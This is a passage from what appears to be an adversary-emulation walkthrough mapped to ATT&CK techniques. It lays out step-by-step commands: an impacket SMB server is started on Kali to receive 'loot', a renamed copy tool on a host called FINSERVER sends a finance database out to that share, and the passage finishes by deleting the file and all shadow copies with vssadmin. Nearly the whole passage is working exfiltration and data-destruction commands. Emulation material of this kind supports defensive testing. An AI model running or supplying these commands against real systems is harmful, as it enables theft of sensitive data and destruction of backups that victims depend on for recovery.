 Then we start the SMB server on Kali:

```bash
[KALI:bash] impacket-smbserver -smb2support -username user -password pass123 data ./loot
```

And finally we exfiltrate the files that we want:

**Step 3.5**
```PowerShell
[FINSERVER:PowerShell] C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Users\Administrator\Documents\finance.db ss:data --no-check-dest
```
ATT&CK Techniques: `T1048`

Having exfiltrated the files, let's delete them and all shadow copies using `vssadmin` on the system to prevent the files to be restored:

**Step 3.6**
```PowerShell
[FINSERVER:PowerShell] rm C:\Users\Administrator\Documents\finance.db
[FINSERVER:PowerShell] vssadmin.exe delete shadows /all
```
ATT&CK Techniques: `T1490`
